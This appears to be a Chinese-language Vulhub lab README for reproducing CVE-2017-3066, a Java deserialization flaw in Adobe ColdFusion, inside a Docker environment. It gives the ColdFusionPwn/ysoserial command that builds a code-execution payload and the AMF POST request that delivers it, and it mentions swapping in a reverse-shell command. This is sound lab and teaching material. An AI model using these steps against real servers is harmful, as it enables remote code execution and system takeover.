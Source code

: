# Adobe ColdFusion 反序列化漏洞（CVE-2017-3066）

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion中存在java反序列化漏洞。攻击者可利用该漏洞在受影响应用程序的上下文中执行任意代码或造成拒绝服务。以下版本受到影响：Adobe ColdFusion (2016 release) Update 3及之前的版本，ColdFusion 11 Update 11及之前的版本，ColdFusion 10 Update 22及之前的版本。

参考链接：

- https://codewhitesec.blogspot.com.au/2018/03/exploiting-adobe-coldfusion.html
- https://www.exploit-db.com/exploits/43993
- https://github.com/codewhitesec/ColdFusionPwn

## 漏洞环境

启动漏洞环境：

```
docker-compose up -d
```

等待数分钟时间，环境启动成功，访问`http://your-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

## 漏洞复现

我们使用参考链接中的[ColdFusionPwn](https://github.com/codewhitesec/ColdFusionPwn)工具来生成POC：

```
java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.6-SNAPSHOT-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/success' poc.ser
```

POC生成于poc.ser文件中，将POC作为数据包body发送给`http://your-ip:8500/flex2gateway/amf`，Content-Type为application/x-amf：

```
POST /flex2gateway/amf HTTP/1.1
Host: your-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-amf
Content-Length: 2853

[...poc...]
```

![](1.png)

进入容器中，发现`/tmp/success`已成功创建：

![](2.png)

将POC改成[反弹命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功拿到shell：

![](3.png)